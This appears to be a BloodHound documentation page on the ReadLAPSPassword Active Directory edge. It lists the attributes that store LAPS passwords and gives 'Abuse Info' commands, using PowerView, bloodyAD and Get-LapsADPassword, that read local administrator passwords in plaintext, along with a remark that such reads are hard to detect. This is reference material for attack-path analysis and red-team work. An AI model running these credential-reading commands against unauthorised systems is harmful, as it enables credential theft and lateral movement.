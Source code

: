 ```yaml
---
title: ReadLAPSPassword
description: This privilege allows a principal to read the LAPS password from a computer.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

For systems using legacy LAPS, the following AD computer object properties are relevant:

* **ms-Mcs-AdmPwd**: The plaintext LAPS password
* **ms-Mcs-AdmPwdExpirationTime**: The LAPS password expiration time

For systems using Windows LAPS (2023 edition), the following AD computer object properties are relevant:

* **msLAPS-Password**: The plaintext LAPS password
* **msLAPS-PasswordExpirationTime**: The LAPS password expiration time
* **msLAPS-EncryptedPassword**: The encrypted LAPS password
* **msLAPS-EncryptedPasswordHistory**: The encrypted LAPS password history
* **msLAPS-EncryptedDSRMPassword**: The encrypted Directory Services Restore Mode (DSRM) password
* **msLAPS-EncryptedDSRMPasswordHistory**: The encrypted DSRM password history

## Abuse Info

 Plaintext attributes can be read using a simple LDAP client. For example, with PowerView:
```
Get-DomainComputer "MachineName" -Properties "cn","ms-mcs-admpwd","ms-mcs-admpwdexpirationtime"
```
 On Linux, using bloodyAD:
```
bloodyAD --host $DC_IP -d $DOMAIN -u $USER -p $PASSWORD get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```
 Encrypted attributes can be decrypted using Microsoft's LAPS PowerShell module. For example:
```
Get-LapsADPassword "WIN10" -AsPlainText
```
The encrypted attributes can also be retrieved and decrypted using [lapsv2decrypt](https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt) (dotnet or BOF).

## Opsec Considerations

Reading properties from LDAP is extremely low risk, and can only be found using monitoring of LDAP queries.

## Edge Schema

Source: [User](/resources/nodes/user), [Group](/resources/nodes/group), [Computer](/resources/nodes/computer)   
Destination: [Computer](/resources/nodes/computer)   
Traversable: **Yes**  


## References

* [https://www.specterops.io/assets/resources/an\_ace\_up\_the\_sleeve.pdf](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf)
* [https://adsecurity.org/?p=3164](https://adsecurity.org/?p=3164)
* [https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword](https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword)
* [https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt](https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt)
* [https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

